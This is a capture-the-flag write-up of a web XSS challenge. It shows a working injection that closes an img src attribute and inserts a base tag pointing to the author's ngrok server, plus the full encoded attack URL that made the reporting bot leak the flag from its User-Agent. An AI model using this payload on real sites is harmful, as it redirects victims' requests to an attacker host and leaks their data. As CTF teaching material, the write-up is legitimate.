

🚩 5th Challenge

### Question


> Link: http://54.205.207.242/

### Solution
- This is how the website looks like
- 
- The link gives us good vibes
- 
- It's just another XSS chall :)
- Looking around in the HTML source code we see that it's choosing the image from links/paths except that when you provide the internal link `/img/rasengan.jpg` it will not work and say `No hacker` as seen below, so it seems to only work for external links
- 
- Coming to CSP part which is always to be considered when you're working with XSS exploits
- In the code we find line CSP line 
- 
- `script-src 'nonce-xDZxYq7Qzayc4Z';connect-src 'self';style-src 'self';font-src 'self';object-src 'none';base-uri 'none'`
- Taking that to our friend [CSP-evaluator](https://csp-evaluator.withgoogle.com/) it shows it's all good
- 
- Hmmm! searching time again
- I've actually solved very similar chall made by the same author before in another CTF and it was using the base element XSS but then it wasn't included in the CSP protection ([Writeup](https://github.com/AyhamAl-Ali/CTF-Dump/tree/main/CTFs/NCSCJo-CyberWarriors/Web/Xo%20So%20So)) So I had an idea about base element so I tried my old payload again (from the writeup link above) except this time the flag is in User-Agent as mentioned in the description while the old chall had another solution requires some more steps 
- Payload:
```css
'><base href='https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io'>
```

- With `'>`we closed the current img `src` attribute
- With `<base href='https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io'>`we opened a new element, base element which is the way we thought it would work from a previous writeup with the link of our ngrok server
- Final url: `http://54.205.207.242/index.php?src=%27%3E%3Cbase%20href=%27https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io/%27%3E` (url encoding is important)
- When I pasted the link in the bot to report it actually worked! and my server received a request
- 
- 
- VOILAAAA!!!
> Flag: `FLAG{You_StoLe_AmaDO_ForbiDDen_CybOrg_Jutsu}`

After all it seemed to be a known CVE of base-uri ([CVE-2022-40956](https://www.mozilla.org/en-US/security/advisories/mfsa2022-40/#CVE-2022-40956)). Even if base-uri directive is not missing, it can be exploited :) 